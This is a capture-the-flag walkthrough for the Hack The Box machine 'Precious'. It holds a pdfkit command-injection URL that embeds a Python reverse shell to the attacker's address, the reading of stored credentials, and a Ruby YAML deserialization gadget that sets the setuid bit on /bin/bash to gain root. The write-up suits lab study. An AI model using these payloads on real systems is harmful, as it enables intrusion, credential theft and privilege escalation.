




# Precious
https://app.hackthebox.com/machines/Precious/

## Port scan

### Tool used: nmap
<br>

```
nmap -p22,80 -sV precious.htb

Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-27 18:00 CST
Nmap scan report for precious.htb (10.129.78.23)
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.03 seconds
```

First, we take a look at the website:<br><br>


If we put in a site to submit, nothing happens. However, once we add a character to the end of the URL (such as a semicolon), it causes the PDF to generate. <br><br>



Using *Burp*, we can look at the response and see that the file is generated with pdfkit v0.8.6. Alternatively (and more easily), we can just look at the PDF properties and see the same information.<br><br>



A quick search of "pdfkit v0.8.6" reveals that the application is vulnerable to command injection (CVE-2022-25765):

https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

Using Reverse Shell Generator (https://www.revshells.com/) we can create a *python* command to append to the URL in order to create a reverse shell:<br><br>

```
http://10.10.14.222/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.222",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```



Browsing **/home**, we see that there are two users: *henry* and *ruby*. The user flag is in henry's folder, but we do not have permission to read it. Looking around in ruby's folder, we see **.bundle**. Inside this foldder, there is a config file that contains credentials for *henry*:<br><br>



Using these credentials, we are able to SSH as *henry* and obtain the user.txt flag.

**user.txt**

```
ba531947************************
```

Next, we see what kind of privileges *henry* has:<br><br>

```
sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Looking at "update_dependencies.rb", we can see that it uses YAML.load, which will allow us to create a payload inside a yml file to perform remote code execution.<br><br>

**update_dependencies.rb**

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

We create "dependencies.yml", based on the example from https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/Insecure%20Deserialization/YAML/#ruby. To test the functionality, we changed "git_set" to "id" and execute update_dependencies.rb:<br><br>

```
sudo /usr/bin/ruby /opt/update_dependencies.rb 
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
	33: from /opt/update_dependencies.rb:17:in `<main>'
	32: from /opt/update_dependencies.rb:10:in `list_from_file'
	31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
	30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
	29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
	25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
	21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
	20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
	19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
	18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
	14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
	13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
	12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
	11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
	10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
	 9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
	 8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
	 7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
	 6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
	 5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	 4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
	 3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
	 2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	 1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
```

Now that we know our remote code execution works, we change "git_set" to modify the permissions of */bin/bash* to escalate our privileges:<br><br>

**dependencies.yml**

```ruby
---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: "chmod +s /bin/bash"
          method_id: :resolve 
```

After executing update_dependencies.rb again, we are able to run */bin/bash* as root, and capture the root.txt flag.<br><br>

```
henry@precious:~$ /bin/bash -p
bash-5.1# id
uid=1000(henry) gid=1000(henry) euid=0(root) egid=0(root) groups=0(root),1000(henry)
bash-5.1# cd /root
bash-5.1# ls
root.txt
bash-5.1# cat root.txt
```

**root.txt**

```
07c5d644************************
```